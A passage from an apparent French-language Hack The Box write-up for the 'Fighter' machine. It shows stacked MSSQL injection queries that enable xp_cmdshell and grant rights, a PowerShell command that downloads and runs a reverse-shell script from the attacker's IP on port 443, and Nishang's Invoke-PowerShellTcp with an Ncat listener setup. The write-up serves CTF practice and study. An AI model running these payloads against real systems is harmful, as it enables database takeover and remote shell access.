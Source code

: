 Le firewall nous autorise uniquement une sortie sur le port 443... C'est peu mais on fera avec :)  

On serait bien tenté d'utiliser la méthode *DownloadFile* de PowerShell pour placer notre backdoor puis l'exécuter sauf que même en utilisant le port 443 les reverse shell n'aboutissent pas. Même en combinant un payload https avec Shellter rien ne semble passer... L'antivirus doit être costaud...  

J'ai eu recours au script [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) de *Nishang* pour obtenir un reverse-powershell sur le port 443.  

Il faut au préalable rajouter la commande powershell à la fin du fichier pour appeler la fonction de reverse shell avec notre adresse IP et port :  

```plain
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.251 -Port 443
```

Comment avoir le même port pour envoyer le script PowerShell lors de la requête web et recevoir notre reverse shell ? Il y a sans doute des solutions compliquées (load-balancing via inspection du contenu) mais j'ai opté pour faire deux écoutes de port consécutives avec *Ncat*.  

La réponse du premier *Ncat* doit se substituer à un serveur web, il faut donc envoyer des entêtes HTTP en plus du script powershell. Pour générer le fichier de la réponse HTTP brute on peut lancer un serveur web rapide :  

```bash
python3 -m http.server
```

et on dumpe la réponse via curl :  

```bash
curl -D- http://127.0.0.1/Invoke-PowerShellTcp.ps1 > reverse_shell_response.txt
```

Les requêtes SQL stacked ressemblent maintenant à ceci (certaines sont surement superflues, je n'ai pas fait le tri) :  

```python
cmds = [
        "1;EXEC sp_configure 'show advanced options',1;RECONFIGURE;",
        "1;EXEC sp_configure 'show advanced options',1;EXEC sp_configure reconfigure;",
        "1;EXEC sp_configure'xP_cMdshell',1;RECONFIGURE;",
        "1;EXEC sp_configure 'OLE Automation Procedures',1;EXEC sp_configure reconfigure;",
        "1;EXEC sp_configure 'ad hoc distributed queries',1;EXEC sp_configure reconfigure;",
        "1;EXEC sp_configure 'clr enabled',1;EXEC sp_configure reconfigure;",
        "1;ALTER SERVER ROLE bulkadmin ADD MEMBER web;",
        "1;GRANT EXECUTE ON master.sys.xP_cmDshell TO web;",
        "1;EXEC master..xP_Cmdshell 'c:/windows/syswow64/windowspowershell/v1.0/powershell.exe -nop -exec bypass -c \"IEX (New-Object System.Net.WebClient).DownloadString(\\\"http://10.10.15.251:443/revshell.ps1\\\")\"';"
]
```

Et ça mort à l'hameçon :  

![HackTeBox Fighter unprivileged reverse shell](https://github.com/devl00p/blog/raw/master/images/htb/fighter_first_shell.png)  

